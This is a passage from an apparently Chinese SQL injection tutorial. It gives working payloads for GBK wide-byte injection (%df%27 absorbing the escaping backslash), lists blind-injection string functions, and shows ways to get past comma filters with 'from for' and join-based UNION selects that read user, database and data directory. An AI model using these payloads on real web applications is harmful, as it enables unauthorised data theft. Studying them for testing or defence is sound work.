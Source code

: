 ```bash
select column_name  from information_schema.tables where table_name=0x7573657273
1
```

宽字节
在 mysql 中使用 GBK 编码的时候，会认为两个字符为一个汉字，一般有两种思路：

（1）%df 吃掉 \ 具体的方法是 urlencode(’) = %5c%27，我们在 %5c%27 前面添加 %df ，形成%df%5c%27 ，而 mysql 在 GBK 编码方式的时候会将两个字节当做一个汉字，%df%5c 就是一个汉字，%27 作为一个单独的 ’ 符号在外面：

```bash
id=-1%df%27union select 1,user(),3--+
1
```

（2）将 ’ 中的 \ 过滤掉，例如可以构造 %**%5c%5c%27 ，后面的 %5c 会被前面的 %5c 注释掉。

一般产生宽字节注入的PHP函数：
1.replace（）：过滤 ’ \ ，将 ’ 转化为 ’ ，将 \ 转为 \，将 " 转为 " 。用思路一。

2.addslaches()：返回在预定义字符之前添加反斜杠（\）的字符串。预定义字符：’ , " , \ 。用思路一

（防御此漏洞，要将 mysql_query 设置为 binary 的方式）

## 11.对逗号的绕过

sql盲注时常用到以下的函数：

substr()
substr(string, pos, len):从pos开始，取长度为len的子串
substr(string, pos):从pos开始，取到string的最后

substring()
用法和substr()一样

mid()
用法和substr()一样，但是mid()是为了向下兼容VB6.0，已经过时，以上的几个函数的pos都是从1开始的

left()和right()
left(string, len)和right(string, len):分别是从左或从右取string中长度为len的子串

limit
limit pos len:在返回项中从pos开始去len个返回值，pos的从0开始

ascii()和char()
ascii(char):把char这个字符转为ascii码
char(ascii_int):和ascii()的作用相反，将ascii码转字符

###### 对于substr()和mid()这两个方法可以使用from for 的方式来解决

```bash
 select substr(database() from 1 for 1)='c';
1
```

##### 使用join关键字来绕过

```bash
union select 1,2,3,4;
union select * from ((select 1)A join (select 2)B join (select 3)C join (select 4)D);
union select * from ((select 1)A join (select 2)B join (select 3)C join (select group_concat(user(),' ',database(),' ',@@datadir))D);
123
```
